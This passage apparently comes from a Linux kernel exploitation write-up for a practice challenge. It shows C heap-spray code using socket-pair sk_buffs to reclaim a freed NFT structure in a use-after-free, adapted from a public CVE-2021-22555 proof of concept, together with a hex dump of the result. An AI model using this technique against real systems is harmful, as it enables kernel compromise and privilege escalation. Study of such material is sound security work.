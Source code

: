 ```c

int free_skbuff(void *buf, size_t size) {
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (read(ss[i][1], buf, size) < 0) {
        perror("read");
        return -1;
      }
    }
  }
  return 0;
}
```

Some setup is required in the main function to create the socket pairs.
```c
for (int i = 0; i < NUM_SOCKETS; i ++) {
    if(socketpair(AF_UNIX, SOCK_STREAM, 0, ss[i]) < 0) {
        perror("socketpair");
        exit(1);
    }
}
```
This code is mostly copied from [this exploit](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555), by the way.

By spraying several different sk_buffs with the same data(and then freeing and spraying again when we want to change) we can be sure that one of them will allocate on top of the freed NFT structure, in case there's noise on the system. This precuation is pretty unnecessary in this environment, but much more necessary in real-life kernel exploitation.

It can be seen that this works pretty well. Changing our UAF code to first spray socket buffers before reading the freed data,
```c
uint64_t* fake_nft = calloc(8, 24);
void* outbuf = calloc(1, 512);
memset(buf, 0x41, CHUNK_SIZE);
add_nft(buf);
free_nft();
spray_skbuff(fake_nft, SKBUFF_SIZE);
read_nft(0, buf);
```

```
0x00| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x10| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x20| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x30| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x40| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x50| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x60| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x70| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x80| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0x90| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0xa0| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0xb0| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0xc0| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0xd0| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0xe0| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0xf0| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```
